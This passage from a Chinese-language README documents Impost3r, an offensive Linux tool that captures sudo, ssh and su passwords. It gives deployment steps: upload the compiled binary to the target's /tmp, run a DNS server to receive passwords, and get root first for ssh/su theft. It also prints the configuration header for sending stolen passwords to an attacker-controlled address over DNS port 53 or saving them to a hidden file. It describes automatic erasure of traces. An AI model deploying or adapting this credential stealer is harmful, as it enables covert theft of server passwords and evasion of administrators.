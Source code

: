 - 在当前目录下得到编译完成的```.impost3r```文件

- 上传```.impost3r```文件至目标服务器的```/tmp/```文件夹下(仅为示例，可自行修改，只需与源代码中定义相同即可)

- 攻击者在自己的服务器上启动dns服务端程序，等待合法用户使用```sudo```后获取密码。

### 窃取效果

<img src="https://user-images.githubusercontent.com/45198234/83479347-e88b1700-a4ca-11ea-8230-8ec7e9a66845.gif" width="1200" >

### Tips

- 在窃取sudo密码的情况下，Impost3r在成功后将会自动擦除痕迹，并不需要攻击者上去手动清理

- Impost3r会自动判别用户输入的密码是否是正确密码，直到用户输入正确密码后才结束流程并擦除痕迹

- 请在使用Impost3r之前自行使用```sudo -v```判断当前用户是否在```sudoer```组，如果不在，切勿使用Impost3r

## 窃取ssh/su密码

窃取ssh/su密码与上面sudo密码的窃取利用方法不同，要求必须是root权限,可以窃取任意用户密码

以下以Ubuntu为例，Centos类似，使用的文件和修改文件的方式可能有所不同

- 首先还是假设攻击者控制了一台服务器

- 通过一顿提权操作获得了root权限（或者可爱的管理员就是用root权限启动的服务）

- 先编辑Impost3r的```/ssh_su/main.h```源代码文件

```
/*
    Custom setting
*/
# define SSH_OR_BOTH 0 \\设置偷取模式，0代表仅偷取ssh密码，1代表偷取ssh及su密码，默认为0（后面会讲到区别）
# define SAVE_OR_SEND 0 \\设置在窃取成功后是将结果保存在目标机器上或者是发送至攻击者控制的机器(发送=0，保存=1，默认为发送)

/*
    Send to server
*/
# define YOUR_DOMAIN ".com" \\注意，如果你不想购买一个域名来接收Impost3r回传的消息且被植入Impost3r的目标服务器并未禁止向你所控制的dns服务器的53端口的直接udp连接，那么这里的域名请使用默认值;
\\但是如果被植入Impost3r的目标服务器严格限制了dns请求的出站，那么请将YOUR_DOMAIN的值改为你所购买的域名，例如“.example.com”，并将这个域名的NS记录配置成你所控制的DNS服务器地址，在此DNS服务器上运行Fdns,并将下方REMOTE_ADDRESS的值更改为被植入Impost3r的目标服务器的默认dns地址,REMOTE_PORT更改为被植入Impost3r的目标服务器的默认dns地址所监听的dns服务端口(绝大多数情况下都是53端口)
# define MAX_RESEND 30 \\设置当窃取到密码之后，Impost3r向攻击者服务器发送用户密码的最大重试次数(仅当SSH_OR_BOTH为0，此选项才有效)
# define RESEND_INTERVAL 5 \\设置每一次发送密码的间隔(仅当SSH_OR_BOTH为0，此选项才有效)
# define REMOTE_ADDRESS "192.168.0.12" \\设置回送密码的远程地址
# define REMOTE_PORT 53 \\设置回送密码的远程端口

/*
    Save to local
*/
# define SAVE_LOCATION "/tmp/.sshsucache" \\设置结果文件保存的位置，在SAVE_OR_SEND设置为1的情况下
```
